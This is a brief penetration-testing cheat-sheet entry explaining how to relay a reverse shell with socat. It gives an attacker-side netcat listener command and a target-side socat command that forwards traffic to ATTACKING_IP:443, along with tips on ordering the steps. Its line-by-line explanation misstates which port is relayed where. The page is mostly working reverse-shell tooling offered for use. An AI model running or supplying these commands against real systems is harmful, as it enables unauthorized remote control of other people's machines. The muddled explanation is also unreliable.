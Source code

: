 # ⭕ Socat Reverse Shell Relay

### <mark style="color:orange;">**Reverse Shell Relay**</mark>

Using socat we can create a relay for us to send a reverse shell back to our own attacking machine.

```
#on attacker
sudo nc -lvnp 443

#on target
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
```

> **Line 2:** Start a netcat listener on port 443.
>
> **Line 5:** Using socat, relay port 443 to our local machine on port 8000.
>
> **&:** Backgrounds the application.

{% hint style="info" %}
Make sure to open the listening port first, then connect back to the attacking machine
{% endhint %}
